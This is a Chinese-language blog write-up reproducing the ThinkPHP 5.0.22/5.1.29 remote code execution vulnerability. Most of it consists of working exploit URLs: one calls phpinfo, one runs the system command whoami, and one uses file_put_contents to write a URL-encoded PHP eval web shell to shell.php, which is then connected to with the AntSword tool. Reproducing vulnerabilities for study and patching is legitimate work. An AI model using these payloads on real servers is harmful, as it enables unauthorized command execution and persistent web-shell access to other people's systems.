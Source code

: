 ```yaml
---
title: ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞
date: 2020-06-13 20:59:28
categories: 漏洞复现
tags: ThinkPHP
---
```


####  背景

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

<!--more-->

#### 复现过程

##### phpinfo信息

`http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`

![](http://cdn.laohuan.art/2020-06-13_17-32-26.png)

##### 远程命令执行

`http://ip:端口/index.php?s=index/think\app/invokefunction&function=call*_user_*func_array&vars[0]=system&vars[1][]=whoami`

![](http://cdn.laohuan.art/2020-06-13_17-35-46.png)

##### 写shell

1.先将一句话马进行url编码

`%3c%3fphp+eval(%24_POST%5b123%5d)+%3f%3e`

2.POC

`http://IP:端口/index.php?s=/index/\think\app/invokefunction&function=call*_user_*func*_array&vars[0]=file_*put_contents&vars[1][]=shell.php&vars[1][]=%3c%3fphp+eval(%24_POST%5b123%5d)+%3f%3e`

![](http://cdn.laohuan.art/2020-06-13_20-50-06.png)

3.蚁剑连接

`http://IP:端口/shell.php`

![](http://cdn.laohuan.art/2020-06-13_20-54-13.png)

#### 参考链接

<https://www.cnblogs.com/bmjoker/p/10110868.html/>